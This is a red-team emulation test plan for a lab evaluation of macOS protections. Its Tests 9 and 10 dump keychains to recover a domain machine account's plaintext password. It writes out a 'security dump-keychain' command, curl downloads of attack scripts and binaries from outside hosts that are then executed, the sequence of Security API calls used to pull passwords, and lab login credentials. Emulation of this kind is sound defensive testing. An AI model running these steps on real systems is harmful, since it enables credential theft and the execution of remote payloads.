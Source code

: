 # DPRK Protections Micros

## Test 9: Keychain dumping via AppleScript

### :microphone: Voice Track

Test 9 emulates the dumping of macOS keychains via AppleScript execution of the
`security` tool.

The setup on the victim host for this test includes pre-positioning of the
AppleScript on victim itzy (10.222.25.70) in /tmp, opening Terminal, then
elevating to root.

The test begins with execution of the AppleScript. The AppleScript executes the
following command, redirecting output to `/tmp/kc.txt`.

```bash
security dump-keychain -d /Library/Keychains/System.keychain > /tmp/kc.txt
```

The AppleScript executes the `security` tool via `do shell script` with the
`with administrator privileges` to avoid additional GUI password prompts.

Successful execution will create the `kc.txt` output file, containing the
machine account's plaintext password from being domain joined.

### :hammer: Setup

* :arrow_right: Initiate an RDP session to the Windows jumpbox
`spitfire (223.246.0.90)`

* :arrow_right: From the Windows jumpbox `spitfire (223.246.0.90)`, initiate a VNC
session to the macOS victim workstation `itzy (10.222.25.70)` if not already
connected.

    | Hostname | Password |
    | -------- | -------- |
    | 10.222.25.70::5900 | test1234 |

  * At the macOS login screen, authenticate with the following credentials:

    | Username | Password |
    | -------- | -------- |
    | venom | Thin-Hash |

* Open a Terminal and elevate to sudo, providing the following password when
prompted:

    ```bash
    sudo su
    ```

    | Password |
    | -------- |
    | Thin-Hash |

* Download the `test9.scpt` AppleScript

    ```bash
    curl --output /tmp/test9.scpt http://bw-er3ader.org/files-backup/test9.scpt
    ```

### :biohazard: Procedures

* Execute `test9.scpt`

    ```bash
    osascript /tmp/test9.scpt
    ```

* Run the following command to check the output for the plaintext password

    ```bash
    grep -A 10 "Active Directory" /tmp/kc.txt
    ```

* :camera: Screenshot the end state of the test and any command/application output (If a block occurred screenshot any alert/prompt).

### :broom: Cleanup

* In the elevated Terminal, delete `test9.scpt` and the output file

    ```bash
    rm /tmp/test9.scpt /tmp/kc.txt
    ```

* Exit and close the Terminal then sign out of the VNC session

### :mag: ATT&CK Techniques and Reference Code

:information_source: NOTE: Only the techniques under test are listed in this table

| Red Team Activity | Source Code Link | ATT&CK Technique |
| ----------------- | ---------------- | ---------------- |
| /bin/sh executes test9 AppleScript | - | T1059.002 Command and Scripting Interpreter: AppleScript |
| test9 executes the `security` utility | [security](../Resources/protections/test9/test9.scpt#L5) | T1059.004 Command and Scripting Interpreter: Unix Shell |
| test9 accesses the keychain for plaintext passwords via `security` | [dump-keychain](../Resources/protections/test9/test9.scpt#L1) | T1555.001 Credentials from Password Stores: Keychain |

## Test 10: Keychain dumping via Security API

### :microphone: Voice Track

Test 10 emulates the dumping of macOS keychains via API calls from Security.h.

The setup on the victim host for this test includes pre-positioning of a binary
on victim itzy (10.222.25.70) in /tmp, opening Terminal, then elevating to root.

The test begins with execution of the binary. The binary will disable user
interaction pop ups using `SecKeychainSetUserInterationAllowed` then set the
default keychain to `/private/var/root/Library/Keychains`. The binary will then
check access to the keychain using `SecKeychainCopyDefault`, verify it is
unlocked using `SecKeychainGetStatus`, then perform a search query for generic
password items (genp), returning all matching items and their
respective attributes using `SecItemCopyMatching`. On returned items, the
binary will then attempt to use `SecKeychainItemCopyContent` to print the
plaintext password content for the given keychain item.

Successful execution will print the machine account's plaintext password from
being domain joined.

### :hammer: Setup

* :arrow_right: Initiate an RDP session to the Windows jumpbox
`spitfire (223.246.0.90)`

* :arrow_right: From the Windows jumpbox `spitfire (223.246.0.90)`, initiate a VNC
session to the macOS victim workstation `itzy (10.222.25.70)` if not already
connected.

    | Hostname | Password |
    | -------- | -------- |
    | 10.222.25.70::5900 | test1234 |

  * At the macOS login screen, authenticate with the following credentials:

    | Username | Password |
    | -------- | -------- |
    | venom | Thin-Hash |

* Open a Terminal and elevate to sudo, providing the following password when
prompted:

    ```bash
    sudo su
    ```

    | Password |
    | -------- |
    | Thin-Hash |

* Download the `test10` binary

    ```bash
    curl --output /tmp/test10 http://ta11-acfan.net/files-backup/test10
    ```

* Modify the file permissions to make `test10` executable

    ```bash
    chmod +x /tmp/test10
    ```

### :biohazard: Procedures

* Execute `test10`

    ```bash
    /tmp/test10
    ```

* :camera: Screenshot the end state of the test and any command/application output (If a block occurred screenshot any alert/prompt).

### :broom: Cleanup

* In the elevated Terminal, delete `test10`

    ```bash
    rm /tmp/test10
    ```

* Exit and close the Terminal then sign out of the VNC session

### :mag: ATT&CK Techniques and Reference Code

:information_source: NOTE: Only the techniques under test are listed in this table

| Red Team Activity | Source Code Link | ATT&CK Technique |
| ----------------- | ---------------- | ---------------- |
| /bin/sh executes test10 | - | T1059.004 Command and Scripting Interpreter: Unix Shell |
| test10 accesses the keychain for plaintext passwords via SecKeychainItemCopyContent | [getKeychainItemPassword](../Resources/protections/test10/src/keychain.m#L71) | T1555.001 Credentials from Password Stores: Keychain |

## Cleanup

* From your Kali attack host `corsair (223.246.0.70)`, return to your C2 terminal tab, and enter `ctrl+c` to stop the C2.
